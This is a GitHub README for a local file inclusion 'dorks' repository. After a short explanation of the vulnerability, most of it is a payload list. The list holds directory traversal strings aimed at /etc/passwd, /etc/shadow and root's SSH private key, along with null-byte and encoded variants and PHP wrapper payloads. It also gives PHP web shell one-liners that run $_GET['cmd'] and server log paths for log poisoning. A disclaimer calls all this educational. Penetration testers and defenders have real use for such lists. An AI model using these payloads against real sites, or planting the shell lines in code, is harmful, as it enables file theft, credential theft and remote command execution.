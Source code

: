 # Local File Inclusion (LFI) Dorks Repository

![Local File Inclusion](https://img.shields.io/badge/Local%20File%20Inclusion-blue)

Welcome to the Local File Inclusion (LFI) Dorks repository! This repository holds a collection of LFI dorks and an explanation of what LFI is, along with examples of LFI dorks and techniques.

## Table of Contents
- [What is Local File Inclusion (LFI)?](#what-is-local-file-inclusion-lfi)
- [Examples of Local File Inclusion (LFI) Dorks](#examples-of-local-file-inclusion-lfi-dorks)
- [Understanding LFI](#understanding-lfi)
- [Advanced LFI Concepts](#advanced-lfi-concepts)
- [Exploring the GDorks Main Repository](#exploring-the-gdorks-main-repository)
- [Local File Inclusion (LFI) Payloads](#local-file-inclusion-payloads)
- [How to Use This Repository](#how-to-use-this-repository)
- [Contributing](#contributing)


## What is Local File Inclusion (LFI)?

Local File Inclusion (LFI) is a vulnerability allowing an attacker to include files on a server through the web browser. Exploiting this vulnerability can lead to reading sensitive information, executing arbitrary code, or even obtaining full control over a system.

## Examples of Local File Inclusion (LFI) Dorks

Here are examples of Local File Inclusion (LFI) dorks that can be used to test for or identify websites vulnerable to LFI attacks:

1. **Basic LFI Dork:** Identifies websites potentially vulnerable to LFI.

   ```
   http://example.com/page.php?file=filename.php
   ```

2. **Traversing Directories:** Testing for LFI by trying to traverse directories.

   ```
   http://example.com/?page=../../../../../../etc/passwd
   ```

3. **Null Byte Injection:** Checking for LFI using null bytes.

   ```
   http://example.com/page.php?file=filename.php%00
   ```

## Understanding LFI

Understanding LFI vulnerabilities is crucial. Exploiting an LFI can allow an attacker to read sensitive files, execute arbitrary code, and potentially gain unauthorized access to the system.

## Advanced LFI Concepts

Advanced LFI involves bypassing filters, manipulating input parameters, and escalating access. Techniques include using wrapper protocols (such as data://, php://, and file://), directory traversal attacks, and exploiting different web server configurations.

## Local File Inclusion Payloads

Here are various payloads useful for testing LFI vulnerabilities in web applications:

1. **Basic LFI Payload:**

   ```
   ../../../../../../etc/passwd
   ```

2. **URL Encoding Payload:**

   ```
   ..%2f..%2f..%2fetc%2fpasswd
   ```

3. **Null Byte Payload:**

   ```
   ../../../../../../etc/passwd%00
   ```

4. **Wrapper Protocol Payloads:**

   - `php://filter/convert.base64-encode/resource=index.php`
   - `data://text/plain;base64,SGVsbG8gV29ybGQ=`

5. **Directory Traversal Payloads:**

   - Windows: `../../../windows/win.ini`
   - Linux: `../../../etc/passwd`
   
6. **Shell Command Execution Payloads:**

   - `<?php echo shell_exec($_GET['cmd']); ?>`
   - `<?php system($_GET['cmd']); ?>`

7. **Server Log File Payloads:**

   - `/var/log/apache/access.log`
   - `/var/log/nginx/access.log`

8. **Windows File Payloads:**

   - `C:\boot.ini`
   - `C:\Windows\System32\drivers\etc\hosts`

9. **PHP Configuration Payload:**

   ```
   /proc/self/environ
   ```

10. **Web Server Configuration Payloads:**

    - Apache: `/etc/httpd/conf/httpd.conf`
    - Nginx: `/etc/nginx/nginx.conf`

11. **Sensitive File Payloads:**

    - `../../../root/.ssh/id_rsa`
    - `/etc/shadow`
   
These payloads are meant for educational and testing purposes only. Always ensure you have proper authorization and permissions before using them on systems.



## Exploring the GDorks Main Repository

The [GDorks repository](https://github.com/Ishanoshada/GDorks/) is a comprehensive resource that contains an extensive collection of LFI dorks, categorized folders, and detailed documentation covering various LFI attack vectors, methods, and tools.

## How to Use This Repository

This repository is organized into folders, each containing specific LFI dorks and related information. Users can explore these folders to discover LFI dorks of interest.

To contribute to this repository, follow the steps outlined in the [Contributing](#contributing) section.

## Contributing

Contributions to this repository are encouraged! If you have additional LFI dorks, examples, or documentation to share, follow these steps:

1. Fork the repository.
2. Create a new branch with a descriptive name.
3. Add your LFI dorks or other content.
4. Submit a pull request.

Your contributions will help make this repository more comprehensive and informative for the community.

Happy hunting for LFI vulnerabilities, and remember to act responsibly and ethically when testing security vulnerabilities.

